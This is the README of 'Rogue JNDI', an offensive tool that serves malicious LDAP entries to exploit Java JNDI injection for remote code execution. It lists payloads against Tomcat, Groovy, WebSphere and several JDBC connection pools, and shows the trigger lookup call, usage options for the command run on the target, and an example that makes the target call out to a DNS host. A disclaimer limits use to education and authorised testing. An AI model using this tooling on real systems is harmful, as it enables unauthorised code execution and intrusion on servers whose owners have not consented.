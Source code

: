 ## Rogue JNDI
A malicious LDAP server for JNDI injection attacks.

### Description
The project contains LDAP & HTTP servers for exploiting insecure-by-default Java JNDI API.<br> 
In order to perform an attack, you can start these servers locally and then trigger a JNDI resolution on the vulnerable client, e.g.:
```java
InitialContext.doLookup("ldap://your_server.com:1389/o=reference");
```
It will initiate a connection from the vulnerable client to the local LDAP server.
Then, the local server responds with a malicious entry containing one of the payloads, that can be useful to achieve a Remote Code Execution. 

### Motivation
In addition to the known JNDI attack methods(via remote classloading in references), this tool brings new attack vectors by leveraging the power of [ObjectFactories](https://docs.oracle.com/javase/8/docs/api/javax/naming/spi/ObjectFactory.html).

### Supported payloads
* [RemoteReference.java](/src/main/java/artsploit/controllers/RemoteReference.java) - classic JNDI attack, leads to RCE via remote classloading, works up to jdk8u191 
* [Tomcat.java](/src/main/java/artsploit/controllers/Tomcat.java) - leads to RCE via unsafe reflection in **org.apache.naming.factory.BeanFactory** 
* [Groovy.java](/src/main/java/artsploit/controllers/Groovy.java) - leads to RCE via unsafe reflection in **org.apache.naming.factory.BeanFactory** + **groovy.lang.GroovyShell**
* [WebSphere1.java](/src/main/java/artsploit/controllers/WebSphere1.java) - leads to OOB XXE in **com.ibm.ws.webservices.engine.client.ServiceFactory**
* [WebSphere2.java](/src/main/java/artsploit/controllers/WebSphere2.java) - leads to RCE via classpath manipulation in **com.ibm.ws.client.applicationclient.ClientJ2CCFFactory**
* [Dbcp2H2.java](src/main/java/artsploit/controllers/Dbcp2H2.java) - leads to RCE by abusing JDBC connection string to an H2 DB via **org.apache.tomcat.dbcp.dbcp2.BasicDataSourceFactory**
* [Dbcp2Postgresql.java](src/main/java/artsploit/controllers/Dbcp2Postgresql.java) - leads to RCE by abusing JDBC connection string to PostgreSQL DB via **org.apache.tomcat.dbcp.dbcp2.BasicDataSourceFactory**
* [DruidH2.java](src/main/java/artsploit/controllers/DruidH2.java) - leads to RCE by abusing JDBC connection string to H2 DB via **com.alibaba.druid.pool.DruidDataSourceFactory**
* [HikariCPH2.java](src/main/java/artsploit/controllers/HikariCPH2.java) - leads to RCE by abusing JDBC connection string to H2 DB via **com.zaxxer.hikari.HikariJNDIFactory**

### Usage
```
$ java -jar target/RogueJndi-1.0.jar -h
+-+-+-+-+-+-+-+-+-+
|R|o|g|u|e|J|n|d|i|
+-+-+-+-+-+-+-+-+-+
Usage: java -jar target/RogueJndi-1.0.jar [options]
  Options:
    -c, --command  Command to execute on the target server (default: 
                   /Applications/Calculator.app/Contents/MacOS/Calculator) 
    -n, --hostname Local HTTP server hostname (required for remote 
                   classloading and websphere payloads) (default: 
                   192.168.1.10) 
    -l, --ldapPort Ldap bind port (default: 1389)
    -p, --httpPort Http bind port (default: 8000)
    --wsdl         [websphere1 payload option] WSDL file with XXE payload 
                   (default: /list.wsdl)
    --localjar     [websphere2 payload option] Local jar file to load (this 
                   file should be located on the remote server) (default: 
                   ../../../../../tmp/jar_cache7808167489549525095.tmp) 
    -h, --help     Show this help
```
The most important parameters are the ldap server hostname (-n, should be accessible from the target) and the command you want to execute on the target server (-c).
 
As an alternative to the "-c" option, you can modify the [ExportObject.java](/src/main/java/artsploit/ExportObject.java) file by putting java code you want to execute on the target server. 

### Example:
```
$ java -jar target/RogueJndi-1.1.jar --command "nslookup your_dns_sever.com" --hostname "192.168.1.10"
+-+-+-+-+-+-+-+-+-+
|R|o|g|u|e|J|n|d|i|
+-+-+-+-+-+-+-+-+-+
Starting HTTP server on 0.0.0.0:8000
Starting LDAP server on 0.0.0.0:1389
Mapping ldap://192.168.1.10:1389/ to artsploit.controllers.RemoteReference
Mapping ldap://192.168.1.10:1389/o=reference to artsploit.controllers.RemoteReference
Mapping ldap://192.168.1.10:1389/o=tomcat to artsploit.controllers.Tomcat
Mapping ldap://192.168.1.10:1389/o=groovy to artsploit.controllers.Groovy
Mapping ldap://192.168.1.10:1389/o=websphere1 to artsploit.controllers.WebSphere1
Mapping ldap://192.168.1.10:1389/o=websphere1,wsdl=* to artsploit.controllers.WebSphere1
Mapping ldap://192.168.1.10:1389/o=websphere2 to artsploit.controllers.WebSphere2
Mapping ldap://192.168.1.10:1389/o=websphere2,jar=* to artsploit.controllers.WebSphere2
Mapping ldap://192.168.1.10:1389/o=dbcp2-h2 to artsploit.controllers.Dbcp2H2
Mapping ldap://192.168.1.10:1389/o=druid-h2 to artsploit.controllers.DruidH2
Mapping ldap://192.168.1.10:1389/o=dbcp2-postgresql to artsploit.controllers.Dbcp2Postgresql
Mapping ldap://192.168.1.10:1389/o=hikaricp-h2 to artsploit.controllers.HikariCPH2
Mapping ldap://192.168.1.10:1389/o=hikaricp-h2-local-factory to artsploit.controllers.HikariCPH2LocalFactory
```

### Building
Java v1.7+ and Maven v3+ required
```
mvn package
```

### Disclamer
This software is provided solely for educational purposes and/or for testing systems which the user has prior permission to attack.

### Special Thanks
* [Alvaro Muñoz](https://twitter.com/pwntester) and [Oleksandr Mirosh](https://twitter.com/olekmirosh) for the excellent [whitepaper](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf) on JNDI attacks
* [@zerothoughts](https://github.com/zerothoughts) for the inspirational [spring-jndi](https://github.com/zerothoughts/spring-jndi) repository
* [Moritz Bechler](https://github.com/zerothoughts) for the eminent [marshallsec](https://github.com/mbechler/marshalsec) research
* [Orange Tsai](https://twitter.com/orange_8361) and [Welk1n](https://github.com/welk1n) for the Apache + Groovy gadget

### Links
* An article about [Exploiting JNDI Injections in Java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java) in the Veracode Blog
* [How I Hacked Facebook Again! Unauthenticated RCE on MobileIron MDM](https://blog.orange.tw/2020/09/how-i-hacked-facebook-again-mobileiron-mdm-rce.html) 

### Authors
[Michael Stepankin](https://twitter.com/artsploit)
